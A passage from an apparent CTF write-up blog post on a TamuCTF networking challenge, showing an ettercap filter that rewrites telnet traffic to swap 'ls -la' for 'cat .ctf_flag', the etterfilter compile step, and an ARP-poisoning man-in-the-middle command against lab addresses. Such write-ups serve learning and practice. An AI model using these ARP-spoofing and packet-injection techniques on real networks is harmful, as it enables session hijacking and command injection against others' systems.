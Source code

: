 ```
if (tcp.dst == 23) {
    if (search(DATA.data, "ls -la")) {
        replace("ls -la", "cat .ctf_flag");
        msg("zapped!\n");
    }
}
```

Before it can be used, this script needs to be compiled in to a `.ef` file
using the `etterfilter` command: `-> % etterfilter replace.filter replace.ef`. 

Now that we've got our filter, let's get it running and watch the output in
wireshark for what we want.

```
-> % sudo ettercap -T -q -F filter.ef -M ARP -i tap0 /172.16.9.36/172.16.9.35/
```
Now we just wait...

My replacement didn't seem to work perfectly - often I'd be watching the
captured packets and it'd seem to try to run the two commands at the same time,
or part of the command would overlap with the next command (see the below
screenshot).

![Brick House 2]({{"/assets/tamu/net/5-2.png" | absolute_url}})

Eventually, however, the planets aligned and the filter managed to work,
revealing the flag we so sought.

![Brick House 3]({{"/assets/tamu/net/5-3.png" | absolute_url}})

Nice!

This seems like a reasonable place to stop this part - I guess this is gonna be
a 3-parter. And hopefully the next part won't take as long to publish. I started
writing the last part on my honeymoon and since then and now, plenty of ~life~
things have gone on. Now that life is a little slower again, I'll hopefully
get this thing bashed out a little quicker. Maybe I'll even finish in time for
the next TamuCTF!
